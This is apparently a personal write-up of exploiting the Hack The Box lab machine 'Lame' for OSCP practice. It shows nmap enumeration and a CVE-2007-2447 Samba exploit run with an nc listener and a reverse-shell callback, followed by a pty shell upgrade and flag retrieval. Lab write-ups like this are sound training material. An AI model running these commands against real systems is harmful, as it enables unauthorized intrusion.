




Welcome to the lame write up. This is an "easy" box, but it is a box for great learning and it is on the list of OSCP like boxes. There are numerous ways to solve this box, as it is full of vulnerabilities. There is also a bunch of Metasploit modules that just one click root it. Because I'm studying for my OSCP, I wanted to make sure I avoided using Metasploit.
First let’s ping the machine to make sure it is online, I like using fping.
fping 10.10.10.3Alright, now I know the machine is online.
I’m going to nmap it to know what services and versions are running. This is my favorite nmap command I like to start with. Nmap generally scans only the first 1000 by default and on a few boxes that has delayed me hours because I thought I was seeing the full picture, but I wasn’t. The sV attempts to determine the version of the service running on port. The sS does a TCP SYN port scan, which is the default anyway, but whatever. The T4 is the speed, T4 is fast, but not insane that it will miss stuff. The oX outputs the scan to a xml file as well as displaying it on the screen. I like to do this because I use pentest.ws, it allows you to upload xml files and displays it in a super great format.
nmap -p 1-65535 -sV -sS -T4 10.10.10.3 -oX lame.xmlHere are the ports, services, and versions that our nmap scan was able to pick up. I next started at the top and began to work my way down. Looking at the versions and then using Google to find known vulnerabilities or exploits that I could use.
Vsftpd 2.3.4
I began to search around and found this, super fascinating write up on how to use a known backdoor in this version. Long story short, you telnet in, but use a ‘:)’ at the end of the username and it “holds the door open” and let’s you get a shell. It ended up not working for this specific box, but thought it was an interesting write up nonetheless.
I moved on to OpenSSH 4.7p1.
Upon researching this version of Openssh, there wasn’t anything super vulnerable about it. So I kept moving on down the list.
Samba smbd 3.X - 4.X
Kali has searchsploit preinstalled (you have to manually install it if you are using ParrotOS), so I wanted to see if there was anything known about this version.
searchsploit Samba 3.0I began to work down the list and look into these. The third one down looked super promising.
cat /usr/share/exploitdb/exploits/unix/remote/16320.rb | grep CVEThen I moved to Google to check out CVE-2007-2447.
   This exploit looked super promising. What it does is it takes advantage of unfiltered user input provided via MS-RPC calls to /bin/sh when invoking non-default "username map script" configuration. So no authentication is needed to exploit this vulnerability. It is supposed to just spit back a root shell.
The root cause is passing unfiltered user input provided via MS-RPC calls to /bin/sh when invoking non-default "username map script" configuration option in smb.conf, so no authentication is needed to exploit this vulnerability. For more info about this exploit, see this link: amriunix.com
It got a CVSS score of 6.0 — CVE Details
I gave it a try. I cloned the repo to my machine.
git clone https://github.com/amriunix/CVE-2007-2447.gitReading through the documentation, I needed to set some things up before I could launch it.
sudo apt install python3-pip -y
pip install pysmbI was then ready to give it a go.
I started my nc listening on port 1234. The l is for listen, v for verbose, n for suppress name/port resolutions, and p for what port.
nc -lvnp 1234This is the command I use to run the exploit.
python3 usermap_script.py 10.10.10.3 139 10.10.14.3 1234I hit enter and on my other terminal window I see the connection being received. I type id to see what permissions/user I caught.
id
python --versionI can upgrade that shell.
python -c 'import pty; pty.spawn("/bin/bash")'Great, so I ran a little script to grab all the flags for me.
find . -name user.txt -exec wc -c {} \; -exec cat {} \; && \
find . -name root.txt -exec wc -c {} \; -exec cat {} \;For cleanup, there isn’t much, I didn’t leave any files on the machine. Just exploited a vulnerability and ran a few commands.
For remediation they really just need to patch this box. This is only one way to exploit it, but there are many other ways. And techniques.
- ktt